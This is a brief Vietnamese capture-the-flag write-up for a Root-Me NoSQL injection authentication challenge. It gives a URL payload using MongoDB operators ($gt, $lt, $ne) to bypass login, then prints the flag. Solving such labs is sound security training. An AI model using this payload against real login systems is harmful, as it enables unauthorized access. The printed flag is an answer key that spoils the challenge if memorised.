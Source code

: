 # NoSQL injection - Authentication

## Đề bài

Link: [http://challenge01.root-me.org/web-serveur/ch38/](http://challenge01.root-me.org/web-serveur/ch38/)

![](sc.png)

![](view-web.png)

## Hướng giải

> http://challenge01.root-me.org/web-serveur/ch38/?login[$gt]=admin&login[$lt]=test&pass[$ne]=1

![](result.png)

Vậy key là: `nosqli_no_secret_4_you`.